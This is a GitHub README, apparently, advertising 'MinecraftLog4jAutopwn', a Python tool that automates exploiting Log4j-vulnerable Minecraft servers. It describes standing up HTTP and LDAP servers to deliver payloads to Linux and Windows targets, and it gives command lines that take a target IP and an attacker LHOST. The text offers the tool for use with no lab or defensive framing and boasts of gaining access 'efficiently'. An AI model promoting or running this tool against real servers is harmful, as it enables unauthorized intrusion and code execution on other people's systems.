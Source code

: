 ![image](https://github.com/MAWK0235/MinecraftLog4jAutoPwn/assets/90433993/8e88e5d8-9000-4e56-8c51-4bfb4bb941c6)

# MinecraftLog4jAutopwn: Automate Minecraft Server Exploitation with Log4j

Are you tired of manually exploiting Minecraft servers using Log4j vulnerabilities? Say no more! Introducing MinecraftLog4jAutopwn – your ultimate tool for automating the exploitation process, saving you time and effort. With MinecraftLog4jAutopwn, effortlessly exploit Minecraft servers with Log4j vulnerabilities and gain access efficiently!

note: you might need to change the java compiler version if the server was compiled with a different version then my example

## Key Features

- **Automated Exploitation**: MinecraftLog4jAutopwn automates the entire process of exploiting Minecraft servers with Log4j vulnerabilities, streamlining your workflow and saving valuable time.

- **HTTP and LDAP Server Setup**: Automatically sets up HTTP and LDAP servers for delivering payloads to the target Minecraft server.

- **Payload Injection**: Inject payloads into Minecraft servers seamlessly, with support for both Linux and Windows targets.

- **Flexible Authentication**: Support for authenticating with Minecraft servers using usernames and passwords.

## Installation

```bash
git clone https://github.com/yourusername/MinecraftLog4jAutopwn.git

```

## Usage

```bash
python MinecraftLog4jAutopwn.py --target <target_IP> --username <minecraft_username> --LHOST <your_IP>
```

## Command Line Arguments

- `--target`: Specify the IP address of the target Minecraft server.
- `--username`: Provide the username for authenticating with the Minecraft server.
- `--password`: Supply the password for authenticating with the Minecraft server.
- `--LHOST`: Specify the IP address of your machine where payloads will be delivered.

## Examples

```bash
# Exploit a Minecraft server with Log4j vulnerability
python MinecraftLog4jAutopwn.py --target 192.168.1.1 --username user --password pass --LHOST 10.0.0.1
```

## Response Codes

- **Success**: Successfully exploited the Minecraft server.
- **Authentication Failed**: Failed to authenticate with the Minecraft server.
- **Connection Error**: Couldn't connect to the Minecraft server.

![MinecraftLog4jAutopwn](minecraft_log4j_autopwn_image.png)

*Note: Replace `yourusername` in the installation command with your GitHub username.*
